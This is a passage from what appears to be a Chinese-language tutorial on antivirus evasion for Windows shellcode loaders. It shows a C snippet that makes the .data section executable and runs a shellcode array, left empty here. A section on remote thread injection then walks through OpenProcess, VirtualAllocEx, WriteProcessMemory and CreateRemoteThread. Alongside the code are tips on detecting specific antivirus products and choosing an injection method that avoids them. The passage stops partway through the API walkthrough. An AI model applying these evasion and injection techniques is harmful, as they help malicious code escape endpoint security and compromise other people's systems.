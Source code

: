 利用

设置data段可写 执行shellcode

```php
#include <Windows.h>

#pragma comment(linker, "/section:.data,RWE")//设置data段可写,就这么短短一行代码
unsigned char shellcode[] = {  };
//全局变量会保存在.data中，

int main()

{
    ((void(*)())(void*)shellcode)();//执行shellcode
}
```

#### 5.远程线程注入

**\*火绒对于线程注入的操作并不敏感,但是某数字杀软晶核的环境下除了高信誉的白名单以外不要尝试进程或者线程注入**

**我们也可以通过CreateToolhelp32Snapshot去获取系统中正在运行的进程信息，线程信息然后进行判断,如果是火绒的环境就进行注入,如果是某数字杀软的环境就指针执行或者是注入自身(某数字杀软任何注入自身没有威胁)**

我们先学习一下前置知识:

使用远程线程注入，我们需要使用4个主要函数：OpenProcess, VirtualAllocEx, WriteProcessMemory，CreateRemoteThread

**思路:**

1. 打开远程进程的句柄（pid）(OpenProcess)
2. 使用VirtualAllocEx在远程进程中分配具有读、写和执行必要权限的内存空间
3. 然后使用WriteProcessMemory将shellcode写入到内存缓冲区中
4. 最后通过调用CreateRemoteThread来创建远程线程

主要是了解一下每一个windowsAPI的功能和传入的参数

1、OpenProcess

```php
HANDLE OpenProcess(
  [in] DWORD dwDesiredAccess,
  [in] BOOL  bInheritHandle,
  [in] DWORD dwProcessId
);
```

- dwDesiredAccess：一个或多个进程访问权限
- bInheritHandle：是否继承句柄
- dwProcessId：进程的标识符

```php
printf("Injecting to PID: %i", atoi(argv[1]));
processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
```

2、VirtualAllocEx
